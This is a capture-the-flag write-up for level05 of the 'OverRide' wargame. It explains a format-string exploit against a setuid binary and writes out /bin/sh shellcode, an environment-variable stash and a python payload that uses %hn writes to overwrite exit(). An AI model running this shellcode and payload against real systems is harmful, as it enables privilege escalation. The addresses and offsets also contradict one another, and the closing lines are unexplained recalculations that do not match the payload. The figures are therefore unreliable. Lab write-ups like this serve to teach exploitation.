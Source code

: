 Level05 protections:
```Shell
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

Level05 rights:
```Shell
level05@OverRide:~$ ls -la level05 
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

Testing the binary:
```Shell
level05@OverRide:~$ ./level05
COUCOU
coucou
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows three things:
- the program converts input from uppercase to lowercase, if it's part of the ASCII table
- a format string attack is possible because of an unsafe `printf()` call
- the program ends with a call to `exit()`.

Our solution will consist of storing a shellcode inside an environment variable and overwrite `exit()` with its address. We need to export the shellcode, otherwise any values corresponding to an uppercase letter in ASCII will be modified by the program. So the goal is to use the `%n` specifier, with which we will send the address of the environment variable as a decimal number and store it inside the `exit()` call.

First, let's export our shellcode:
```Shell
export SHELLCODE=`python -c 'print("\x90" * 100 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'`
```

Now, let's retrieve the address of a random NOP instruction inside our environment variable:
```Shell
(gdb) x/s *((char **)environ)
0xffffd872:      "SHELLCODE=[...]
```

Writing the address in one go is impossible because it exceeds the capacity of an `int`, therefore crashing `%d` and `%n` (as `%n` takes an `*int` as argument). We are forced to divide it and store each part in a `short int`, aka `%hn`.
So our payload will consist in:
[first two bytes of the address of `exit()`] + [last two bytes of the address of `exit()`] (reversed to little endian)
and then
%[last bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn + %[first bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn
```Shell
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55414d" + "%10$hn" + "%10113d" + "%11$hn")'; cat) | ./level05
```

The address of the environment variable storing our shellcode is 0xffffd8d6, we will add 12 (0xffffd87e) to be sure this address correspond to a NOP instruction, which gives us, in decimal:
ffff = 65535 / d87e = 55422
Since we're in little endian, we start with `d8d6`, minus 8 (because of the 8 bytes of the address of `exit()`): 55414.
Then, for `ffff` minus 8 and minus 55414, so we get: 10113.
We will place each value next to each other on the stack, therefore they will be placed at index 10 and index 11, respectively.

ffff d8e2

55522 - 8 = 55514
65535 - 55514 - 8 = 10013
